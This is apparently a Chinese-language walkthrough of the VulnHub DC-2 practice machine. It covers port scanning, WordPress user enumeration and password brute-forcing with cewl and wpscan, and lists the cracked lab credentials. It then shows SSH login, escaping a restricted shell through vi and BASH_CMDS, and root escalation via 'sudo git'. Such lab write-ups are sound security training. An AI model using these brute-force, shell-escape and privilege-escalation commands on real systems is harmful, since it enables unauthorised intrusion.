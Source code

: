 # 前言

靶机：`DC-2`，IP地址为`192.168.10.13`

攻击：`kali`，IP地址为`192.168.10.2`

都采用`VMWare`，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或者`netdiscover -r 192.168.10.1/24`

![](D:\stu\vulnhub\DC靶场\pic-2\1.jpg)

# 信息收集 

## 使用nmap扫描端口

![](D:\stu\vulnhub\DC靶场\pic-2\2.jpg)

## 网站信息探测

访问80端口默认界面，但是访问IP时，跳转到一个域名`dc-2`，所以这里对该IP进行绑定该域名，编辑文件`/etc/hosts`，再次访问80端口即可成功访问

![](D:\stu\vulnhub\DC靶场\pic-2\4.jpg)

并且这时候发现网站中的显示涉及到`wordpress`CMS，尝试使用`whatweb`等工具进一步验证，发现为`wordpress 4.7.10`版本

![](D:\stu\vulnhub\DC靶场\pic-2\5.jpg)

# 网站漏洞寻找

发现`flag1`，查看，提示可能需要使用`cewl`工具来生成字典，用于密码破解

![](D:\stu\vulnhub\DC靶场\pic-2\5-1.jpg)

那么使用`cewl`生成一个针对网站的字典文件`words`，这个是生成在当前目录下的

```shell
cewl http://dc-2 -w words -m 3
```

使用针对`wordpress`的扫描工具`wpscan`

```shell
wpscan --url http://dc-2
```

![](D:\stu\vulnhub\DC靶场\pic-2\6.jpg)

那么进一步进行用户名枚举，发现三个用户名

```shell
wpscan --url http://dc-2 -e u
```

![](D:\stu\vulnhub\DC靶场\pic-2\7.jpg)

尝试进行密码暴力破解，有两组成功

```shell
wpscan --url http://dc-2 -e u -P words
```

![](D:\stu\vulnhub\DC靶场\pic-2\8.jpg)

| 用户名  | 密码         |
| ------- | ------------ |
| `jerry` | `adipiscing` |
| `tom`   | `parturient` |

对于`wordpress`，默认的登录界面为`wp-login.php`，当然，如果默认改变，可以使用目录扫描爆破工具进行扫描，这里使用`gobuster`进行扫描一次

```shell
gobuster dir -u http://dc-2 -w /usr/share/wordlists/dirb/big.txt -x php,html,txt,md -d -b 404,403
```

![](D:\stu\vulnhub\DC靶场\pic-2\9.jpg)

# ssh登录至tom

访问`wp-login.php`界面，然后使用上面的两组账户进行登录，根据`flag1`提示，下一个`flag`就在其中一个账户下，登录`jerry`账号后，发现`flag2`

![](D:\stu\vulnhub\DC靶场\pic-2\10.jpg)

把其内容翻译就是：

"如果您无法利用 WordPress 并走捷径，还有另一种方法。

希望您找到了另一个切入点。"

想了一下，当前使用`wordpress`登录的账号是非管理员的，也就是并不能写入文件，那么 插件什么的，并无法利用。

那么当前有两组用户名和密码，还有7744的`ssh` 服务，猜测这里可能存在具有`ssh`登录的点

```shell
ssh tom@192.168.10.4 -p 7744
```

# rbash逃逸

发现可以登录成功，只是登录之后，当前用户`tom`的`bash`是具有限制的，也就是`rbash`

测试一番后，发现`/`不被允许使用

![](D:\stu\vulnhub\DC靶场\pic-2\11.jpg)

那么使用`help`查看一下，主要就是发现`compgen`可用

![](D:\stu\vulnhub\DC靶场\pic-2\12.jpg)

使用`compgen -c`列出当前可用的命令，除了上面发现的，还发现几个命令

![](D:\stu\vulnhub\DC靶场\pic-2\13.jpg)

`ok`，那么就可以进行`rbash`逃逸了，如果不清楚的话，可以进行百度搜索，因为这里的`/`不被允许使用，所以对于`less、vi`等可能无法进行逃逸

那么直接调用命令时涉及到`/`就不被允许，那么定义一个变量，然后通过变量进行执行，这个变量可以是`/bin/sh`，前面也可以看到`set`是可以使用的，那么就可以通过这个命令进行操作

直接使用`set`命令可以看到相关问题

![](D:\stu\vulnhub\DC靶场\pic-2\14.jpg)

这设置的是系统层面的，并且当前用户并没有权限，所以无法直接在这里允许`set`，但是可以通过与`vi`结合使用，来做一个临时的

```shell
#随便编辑一个文件，只要进入vi编辑即可
vi test
#进入后不要进入编辑模式，直接输入 :  以及后面的变量
:set shell=/bin/sh
#在vi中再次执行一次即可
:shell
```

进入到一个临时的`sh`中，但是环境变量并没有改变，好在前面的`export`可用，所以再设置一个临时环境变量

```shell
export PATH=/bin:$PATH
export PATH=/usr/bin:$PATH
```

环境变量成功后，发现`cat`命令成功，说明`rbash`逃逸成功

![](D:\stu\vulnhub\DC靶场\pic-2\16.jpg)

这里的`flag3`提示我，最好使用`su`切换到用户`jerry`，然后输入上面的密码`adipiscing`

```shell
su jerry
```

# sudo提权至root

可以，登录成功，并查看`flag4`，提示`git`的提权

![](D:\stu\vulnhub\DC靶场\pic-2\17.jpg)

那么搜索一下，`git`命令是具有SUID还是`sudo`

```shell
find / -perm -4000 -print 2>/dev/null
sudo -l
```

![](D:\stu\vulnhub\DC靶场\pic-2\18.jpg)

对于`git`的`sudo`提权，方法很多，可以借助网站`gtfobins.github.io`搜索

![](D:\stu\vulnhub\DC靶场\pic-2\19.jpg)

使用其中一个进行测试

```shell
sudo git -p help config
!/bin/sh
```

使用上面命令后，提权成功

![](D:\stu\vulnhub\DC靶场\pic-2\20.jpg)

切换到`root`的主目录，看到最终`flag`

![](D:\stu\vulnhub\DC靶场\pic-2\21.jpg)





# 总结

该靶场考察以下几点：

1. 网站指纹识别，以及`wordpress`的一些默认配置的使用以及`wpscan`的使用
2. `cewl`的使用，该工具是通过爬取网站的信息作为单词，可用作用户名及密码等
3. `rbash`的逃逸，方式很多，具体问题具体分析
4. `sudo`提权的一些方式，这里是`git`相关的

## 额外

还有一种`rbash`逃逸，是在`BASH_CMDS`是可修改时，可以利用，这个可以通过`set`命令查看是否有无，具体能否修改可以测试一下

![](D:\stu\vulnhub\DC靶场\pic-2\22.jpg)

然后通过下面代码执行

```shell
#直接在终端输入
BASH_CMDS[a]=/bin/sh;a
#这时候就会获取一个sh

#再设置临时环境变量
export PATH=/bin:$PATH
export PATH=/usr/bin:$PATH
```











